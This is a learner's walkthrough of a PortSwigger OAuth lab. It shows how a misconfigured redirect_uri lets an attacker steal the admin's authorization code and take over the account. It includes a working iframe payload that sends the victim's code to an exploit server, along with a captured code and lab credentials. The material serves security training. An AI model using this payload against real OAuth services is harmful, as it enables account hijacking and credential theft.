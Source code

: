 # OAuth account hijacking via redirect_uri

## This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

## To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

## The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

## You can log in with your own social media account using the following credentials: `wiener:peter`.

### HINT:

```javascript
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

---

step 1
it will use as payload Hint and marked are same
![](images/lab3_http_histroy_auth.jpg)

![](images/lab3_code_generated.jpg)

step 2
send **\_\_\_\_**

step 1 to repeater
302 found
and ready for payload

![](images/lab3_send_auth_client_id_to_repeater.jpg)

step 3
add payload

```javascript
<iframe src="https://oauth-0a32008e030e1bbe82ab688d02d00091.oauth-server.net/auth?client_id=m1rm32vafm9mw7sif225q&redirect_uri=https://exploit-0a92008803f01bcc822269b801a40040.exploit-server.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>
```

store and view exploit
![](images/lab3_add_payload_exploit.jpg)

click exploit deliver to victim
and click on access log

step 5
go to access log
![](images/lab3_access_log_code.jpg)
`code=qWnjr56jtzVQEsOUA022bkr3ZijMy049QoEC3ksEqKY`

step 6
copy code replace and forward request

![](images/lab3_intercept_login_replace_code.jpg)

step 7
you will get admin panel

![](images/lab3_admin_panel.jpg)

delete carlos account solved lab

![](images/lab3_solved_lab.jpg)
